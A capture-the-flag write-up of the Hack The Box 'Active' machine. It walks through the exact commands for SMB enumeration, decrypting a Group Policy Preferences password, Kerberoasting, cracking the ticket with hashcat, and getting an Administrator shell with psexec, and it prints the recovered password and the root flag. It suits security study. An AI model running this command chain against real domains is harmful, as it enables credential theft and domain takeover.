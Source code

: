 This is a writeup for the Active box on HTB. 

We start by enumerating the machine with nmap

command:
```
nmap -sV -sC -T4 10.10.10.100 -p-
```
We then begin to enumerate with enum4linux:

```
enum4linux -a 10.10.10.100
```
We didn't find much so we decided to use smbclient instead:

```
smbmap -H 10.10.10.100
```
We find that we can access the Replication folder without authentication and decide to connect to it through smb:

```
smbclient //10.10.10.100/Replication -U ""%""
```
We fina a file ```Groups.xml``` that has a username and encrypted password. we use ```gpp-decrypt``` to derypt the
password ```GPPstillStandingStrong2k18```

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
````
With the user name and password we can access 3 more shares:

```
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```
We are able to get user.txt from here.

We edit the /etc/hosts file to include the hostname ```active.htb```.

from here we get the hash with impackets ```GetUserSPNs.py```:

```
./GetUserSPNs.py -request active.htb/SVC_TGS
```
We get the hash and then use hashcat to crack the hash:

```
hashcat -m 13100 kerbticket.hash  ~/rockyou.txt 
```
Afterwards we are able to gain root access:

```
psexec.py htb.active/Administrator@10.10.10.100
```
we get the root flag: 085805c4a84e39ce38afa410bf50fb57

system has been fully compromised; action is no longer required.
